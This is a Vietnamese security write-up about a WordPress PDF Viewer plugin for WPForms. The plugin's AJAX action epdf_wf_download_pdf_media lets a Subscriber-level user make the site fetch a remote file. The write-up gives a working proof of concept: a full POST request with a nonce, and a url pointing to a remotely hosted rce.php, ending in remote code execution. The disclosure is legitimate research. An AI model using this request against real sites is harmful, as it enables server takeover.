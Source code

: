 Điều này có nghĩa là:

* `wp_ajax_` yêu cầu người dùng đã đăng nhập(tối thiếu là `Subcriber`) mới được gửi request đươc chấp nhận
* `epdf_wf_download_pdf_media` là action được truyền trong param

Khi người dùng đã đăng nhập gửi request đến endpoint `/wp-admin/admin-ajax.php` với param `action=epdf_wf_download_pdf_media` thì `ajax_handler_download_pdf_media()` được gọi để xử lý request

### Flow

{{< mermaid >}}
graph TD
A["Subcriber POST -> /wp-admin/admin-ajax.php?action=epdf_wf_download_pdf_media&url=..."] --> B["ajax_handler_download_pdf_media()"]
B --> C["check_ajax_referer('epdf_wf_download_pdf_media')"]
C --> D["download_url($url) -> $tmp_file (temporary file)"]
D --> E{"is_wp_error($tmp_file) ?"}
E -- "yes" --> F["wp_send_json_error() -> STOP"]
E -- "no" -->  K["Uploaded file accessible → potential RCE"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)
1. Truy cập trang chứa form được tạo từ **WPForms** sử dụng **PDF Viewer**
2. Lấy nonce
3. Tạo file `.php` chứa code RCE và lưu trữ trên internet
4. Gửi POST request với url trỏ đến file vừa tạo.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7C69db0f51f219492ec3f150bb86bc1364f7cd33442587ddf3f1bf334e4cdec409; wp-settings-time-2=1761725656; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wp-settings-2=editor%3Dtinymce%26libraryContent%3Dbrowse; wp-settings-time-3=1761711790; wp-settings-3=libraryContent%3Dbrowse; _lscache_vary=fff4fa950d2b9daa95c3289bb2a7040a; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7Ca7cb9996e74be71e18c68f339c0ad07a43687c7eb701f89fe90374cc2a783131; wp-settings-time-5=1761992371
...

_ajax_nonce=ea2ccf0ccd&action=epdf_wf_download_pdf_media&url=https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

5. Truy cập file vừa tạo và RCE
